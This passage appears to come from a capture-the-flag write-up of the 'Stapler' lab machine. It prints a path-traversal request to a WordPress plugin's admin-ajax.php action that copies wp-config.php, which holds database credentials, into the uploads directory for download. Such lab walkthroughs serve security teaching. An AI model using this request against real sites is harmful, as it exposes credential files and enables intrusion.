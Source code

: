 ![](images/stapler20.png)

Looking through the code and reading a little about this exploit it appears all you need to do is navigate to a link and then the results will show up in the wp-content/uploads directory as a .jpeg file. I end up not using the script and navigating to:

```
https://192.168.56.148:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php
```

And then heading over to:

```
https://192.168.56.148:12380/blogblog/wp-content/uploads/
```

![](images/stapler21.png)
